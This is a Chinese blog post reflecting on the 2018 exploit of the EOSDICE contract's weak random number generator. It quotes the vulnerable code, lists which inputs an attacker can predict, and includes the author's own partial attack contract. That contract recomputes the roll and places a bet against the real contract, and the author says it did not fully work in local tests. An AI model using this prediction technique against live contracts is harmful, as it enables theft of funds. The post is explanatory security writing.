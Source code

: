 ```yaml
---
title: EOSDIEC 随机数被攻破
categories:
  - 区块链
date: 2018-11-04 08:49:35
tags:
---
```


## EOSDICE

{% asset_img 0.jpg  %}

今天起床看到 EODICE随机数竟然被攻破了？

之前我还看过代码，觉得挺安全的，看来我还是太菜了

随机数代码如下 (来源于[github](https://github.com/loveblockchain/eosdice/blob/master/eosbocai2222.hpp))


```c++
    uint8_t random(account_name name, uint64_t game_id)
    {
        asset pool_eos = eosio::token(N(eosio.token)).get_balance(_self, symbol_type(S(4, EOS)).name());
        auto mixd = tapos_block_prefix() * tapos_block_num() + name + game_id - current_time() + pool_eos.amount;

        const char *mixedChar = reinterpret_cast<const char *>(&mixd);

        checksum256 result;
        sha256((char *)mixedChar, sizeof(mixedChar), &result);

        uint64_t random_num = *(uint64_t *)(&result.hash[0]) + *(uint64_t *)(&result.hash[8]) + *(uint64_t *)(&result.hash[16]) + *(uint64_t *)(&result.hash[24]);
        return (uint8_t)(random_num % 100 + 1);
    }
```
可以看到生成随机数 有几个特别的东西

1. game_id 这个是递增的，可以拿到
2. account_name 这个是玩家的用户名，可以拿到
3. pool_eos 这个是当前合约的余额，如果短时间没有人玩的话，是可以拿到固定的值的
4. tapos_block_prefix & tapos_block_num 这两个是区块内部的值，如果我用合约来攻击的话，可以拿到
5. current_time 当前时间戳(合约用了延时交易)

我当时看到这个合约的时候,其实有想过怎么攻击,但是发现变量比较多,应该比较难,攻击合约需要满足以下条件

1. 需要短时间内没有人玩，要不然game_id 与 pool_eos都会变动，导致你攻击失败
2. 必须要把攻击合约与 出结果 的时间控制在一个区块内，要不然 tapos_block_prefix & tapos_block_num 这两个数会发生改变
3. 之前我一直觉得没办法攻击的是 时间，因为合约取的是未来时间的（其实发现了eos 延时合约运行的话,延时多久，时间往后加就行了。。。） 这点要是想明白了，说不定暴富的人就是我了...

我写的一个模拟攻击合约,不知道是不是因为本地测试的原因，tapos_block_prefix & tapos_block_num 一直对不上

其实本来想 直接从合约拿到他的 game_id的，但是一直没有成功...
```c++
void charity::hi(uint64_t game_id)

{
    asset pool_eos = eosio::token(N(eosio.token)).get_balance(N(eosbocai2222), symbol_type(S(4, EOS)).name());
    pool_eos.amount += 9985;
    uint64_t t = current_time();
    t += 1000000;
    auto mixd = tapos_block_prefix() * tapos_block_num() + _self + game_id - t + pool_eos.amount;
    const char *mixedChar = reinterpret_cast<const char *>(&mixd);

    checksum256 result;
    sha256((char *)mixedChar, sizeof(mixedChar), &result);

    uint64_t random_num = *(uint64_t *)(&result.hash[0]) + *(uint64_t *)(&result.hash[8]) + *(uint64_t *)(&result.hash[16]) + *(uint64_t *)(&result.hash[24]);
    print("random", random_num % 100 + 1);

    // return (uint8_t)(random_num % 100 + 1);
    asset payout = asset(10000, S(4, EOS));
    action(
        permission_level{_self, N(active)},
        N(eosio.token), N(transfer),
        std::make_tuple(_self, N(eosbocai2222), payout, std::string("dice-rrr-50-")))
        .send();
}
```

来一张测试截图

{% asset_img 1.jpg  %}

可以看到除了 tapos_block_prefix & tapos_block_num 这两个不一样的话，其他的都一样的，

tapos_block_num 应该是每次+1,tapos_block_prefix 不知道生成规则，但是如果在一个区块内，应该是能拿到相同的.

## 事件回顾

根据官方给出的账号，我找到了黑客的攻击截图

{% asset_img 2.jpg  %}

{% asset_img 3.jpg  %}


{% asset_img 4.jpg  %}

不知道黑客代码怎么写的，他现在已经把合约换掉了...并且吧钱转到了交易所

根据官方所说，他们有对合约自动检测工具，导致被发现疑似黑客事件，立马把钱转走了.

这一点还是值得表扬的，说明团队实力还是有的。（希望可以开源，这样的话，其他的dice被攻击了也不至于损失那么惨）
{% asset_img 5.jpg  %}

好像公告发布的也比较早，不知道是不是 自动检测功能能把人call醒（哈哈哈）

## 总结与反思

{% asset_img 6.jpg  %}

当被攻击后，有网友在官方群发了这样的一句话...

让我想起一个笑话

>A: 为什么你玩DApp？
    B: 因为开源透明代码可见，更公平
    A：最近玩什么呢
    B：EOS上的菠菜
    A：开源了么？
    B：没有

我一直觉得 区块链合约肯定要开源，要不然和其他的有啥区别呢?

我个人为啥投了这个游戏呢？是因为这个游戏开源，符合我理想中的区块链游戏，不会发生黑我的情况...

本以为他做大了，能给整个社区起一个带头作用，告诉大家，开源合约也没事情的，区块链游戏就是需要开源！

但是还好，损失不是很大。

最后借用老猫的一张图
{% asset_img 7.jpg  %}





